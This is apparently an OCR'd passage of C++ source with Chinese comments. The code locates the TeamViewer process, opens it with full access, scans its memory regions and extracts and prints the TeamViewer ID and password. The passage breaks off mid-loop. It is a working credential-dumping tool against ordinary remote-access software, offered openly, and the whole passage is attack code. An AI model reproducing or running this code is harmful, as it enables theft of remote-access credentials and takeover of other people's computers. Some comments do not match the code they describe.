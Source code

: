 ```c++
    int number = 0;
    if (Process32First(ProcessId, &te32)) {
        do {
            if (!lstrcmp(te32.szExeFile, procName)) {
                printf("[+]TeamViewer PID: %d\n", te32.th32ProcessID);
                return te32.th32ProcessID;
            }
        } while (Process32Next(ProcessId, &te32));
    }
}               //用进程名得到PID

int main() {
    MEMORY_BASIC_INFORMATION mbi = { 0 };               //初始化MEMORY_BASIC_INFORMATION结构
    fnZwQueryVirtualMemory ZwQueryVirtualMemory = (fnZwQueryVirtualMemory)GetProcAddress(GetModuleHandleA("ntdll.dll"), "ZwQueryVirtualMemory");
    //ndtll.dll得到ZwQueryVirtualMemory

    if (ZwQueryVirtualMemory == NULL) {
        if (ZwQueryVirtualMemory == NULL)
        {
            printf("没有找到ZwQueryVirtualMemory函数");
            system("pause");
            return 0;
        }
    }
    //如果为NULL就是没找到

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, GetPidByName(L"TeamViewer.exe"));
    _int64 StartAddress = 0x000000007FFE0000;

    do {
        ZwQueryVirtualMemory(hProcess, (LPVOID)StartAddress, MemoryBasicInformation, &mbi, sizeof(mbi), NULL);                  //从基地址开始遍历，将内存信息存放MEMORY_BASIC_INFORMATION结构
        if (mbi.RegionSize == 0x1FF000) {               //查看内存大小是否为1FF000
            int id_temp = 0;                        //临时变量，找到了就改为1，避免重复读取
            char password_temp = 0;                 //同上
            for (int i = 0; i < 0x1FF000; i++) {
                char id[0x17];                          //存放id的char数组，因为是unicode字符所以要双倍大小加上前面的0x80和后面的0x00，0x00
                char id_char[0xA] = { 0 };              //unicode转换为ASCII存放的数组
                char password[0x15];                    //存放密码的unicode数组，加上前面的0x88和后面的0x00，0x00
                char password_char[0x9] = { 0 };            //同上
                ReadProcessMemory(hProcess, (LPVOID)((_int64)mbi.BaseAddress + i), password, 0x15, NULL);
                ReadProcessMemory(hProcess, (LPVOID)((_int64)mbi.BaseAddress + i), id, 0x17, NULL);
                //内存中读出数据
                for (int x = 0; x <= 0x8; x++) {
                    password_char[x] = password[x * 2 + 2];
                }
                //将0x00去除写入password_char数组
                password_char[8] = '\x00';          //最后加上\x00结尾
                if (password[1] == 0xffffff90 && password[17] == 0 && password[18] == 0 && regex_match(password_char, regex("[0-9a-z]{8}"))) {
                    printf("[+]password: %s\n", password_char);
                    password_temp = 1;
                }
                //判断password[1]是否为0x88，17,18位是否为00，最后正则匹配password_char
                for (int x = 0; x <= 0x9; x++) {
                    id_char[x] = password[x * 2 + 2];
                }
                //同上
                id_char[9] = '\x00';
```